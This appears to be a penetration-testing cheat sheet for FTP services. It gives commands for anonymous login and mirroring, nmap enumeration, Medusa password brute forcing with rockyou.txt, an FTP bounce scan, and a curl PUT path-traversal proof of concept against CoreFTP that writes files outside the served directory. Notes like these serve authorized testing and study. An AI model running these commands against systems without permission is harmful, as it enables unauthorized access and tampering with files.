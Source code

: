 - Download all files from FTP
```shell
wget -m --no-passive ftp://anonymoous:anonymous@$IP
```

- Interact with FTP: we can use telnet or netcat
```shell
nc -nv $IP 21
	OR
telnet $IP 21
```

- If the FTP server runs with TLS/SSL encryption, we can use openssl
```shell
openssl s_client -connect $IP:21 -starttls ftp
```

-----
# ENUMERATION
-----
- Perform the scan:
```
sudo nmap -sV -sC -A -p21 $IP
```

- To use nmap ftp script, we first need to update the db:
```shell
sudo nmap --script-udpatedb
```

-----
# EXPLOIT
-----
## Misconfigurations
#### Anonymous Authentication
```bash
ftp $IP

Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

## Protocol Specifics Attacks
#### Brute Forcing
- Brute Forcing with Medusa
```bash
medusa -u $USER -P rockyou.txt -h 10.129.203.7 -M ftp

-u: user
-U: list of users
-P: list of passwords
-p: password 
-h: target
-M: protocol to attack
```

#### FTP Bounce Attack
- Use FTP server as a pivot point to deliver traffics to the targets
```bash
nmap -Pn -v -n -p80 -b $USER:$PASSWORD@$IP $TARGET_IP
-b: option is used to perform bounce attack
```

----- 
# LATEST FTP VULNERABILITIES
----
## CoreFTP Exploitation
- Does not correctly process the HTTP PUT request => an authenticated directory/path traversal, and arbitrary file write vulnerability.
- Allows attackers to write files outside the directory to which the service has access.
```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```